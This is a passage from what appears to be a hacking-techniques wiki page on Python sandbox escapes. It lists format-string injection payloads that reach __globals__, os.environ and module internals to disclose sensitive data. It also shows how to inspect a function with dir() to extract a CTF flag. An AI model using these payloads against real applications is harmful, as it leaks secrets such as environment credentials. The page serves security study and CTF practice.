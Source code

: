 **More examples** about **format** **string** examples can be found in [**https://pyformat.info/**](https://pyformat.info)****

### Sensitive Information Disclosure Payloads

```python
{whoami.__class__.__dict__}
{whoami.__globals__[os].__dict__}
{whoami.__globals__[os].environ}
{whoami.__globals__[sys].path}
{whoami.__globals__[sys].modules}

# Access an element through several links
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}
```

## Dissecting Python Objects

{% hint style="info" %}
If you want to **learn** about **python bytecode** in depth read these **awesome** post about the topic: [**https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d**](https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d)****
{% endhint %}

In some CTFs you could be provided the name of a **custom function where the flag** resides and you need to see the **internals** of the **function** to extract it.

This is the function to inspect:

```python
def get_flag(some_input):
    var1=1
    var2="secretcode"
    var3=["some","array"]
    if some_input == var2:
        return "THIS-IS-THE-FALG!"
    else:
        return "Nope"
```

#### dir

```python
dir() #General dir() to find what we have loaded
['__builtins__', '__doc__', '__name__', '__package__', 'b', 'bytecode', 'code', 'codeobj', 'consts', 'dis', 'filename', 'foo', 'get_flag', 'names', 'read', 'x']
dir(get_flag) #Get info tof the function
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
```

#### globals
